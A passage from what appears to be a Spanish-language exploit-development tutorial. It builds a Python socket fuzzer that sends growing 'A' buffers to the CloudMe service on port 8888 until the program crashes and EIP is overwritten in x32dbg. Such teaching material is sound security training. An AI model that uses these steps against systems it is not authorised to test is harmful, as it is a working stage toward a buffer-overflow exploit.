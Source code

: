 La declaración de impresión nos ayuda a conocer el tamaño actual del búfer de fuzzing para que cuando el programa finalmente falle, sepamos qué longitud provocó el fallo.

A continuación, debemos conectarnos al puerto cada vez y enviarle nuestra carga útil. Para ello, tenemos que importar la `socket` biblioteca como hicimos al principio de nuestro código anterior y, a continuación, establecer una conexión al puerto con la `connect` función, de la siguiente manera:

```python
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((IP, port))
```

Con esto, deberíamos estar listos para enviar nuestro buffer, lo cual podemos hacer a través de `s.send(buffer)`. También necesitaremos envolver nuestro bucle en un `try/except` bloque, de modo que podamos detener la ejecución cuando el programa se bloquee y ya no acepte conexiones. Nuestra `fuzz()`función final debería verse de la siguiente manera:

```python
def fuzz():
    try:
        for i in range(0,10000,500):
            buffer = b"A"*i
            print("Fuzzing %s bytes" % i)
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((IP, port))
            s.send(buffer)
            s.close()
    except:
        print("Could not establish a connection")

fuzz()
```

Ejecutamos nuestro script y vemos lo siguiente:

```cmd-session
Fuzzing 0 bytes
Fuzzing 500 bytes
...SNIP...
Fuzzing 9000 bytes
Fuzzing 9500 bytes
```


Vemos que todo el script se ejecutó sin bloquear los servicios de escucha, ya que el puerto `8888` seguía escuchando durante nuestro análisis de fuzzing. Sin embargo, si verificamos nuestro `x32dbg` depurador, vemos que el `cloudme`programa front-end se bloqueó y `EIP` se sobrescribió con nuestro `A`búfer de :

![](../../Images/Pasted%20image%2020240925165832.png)
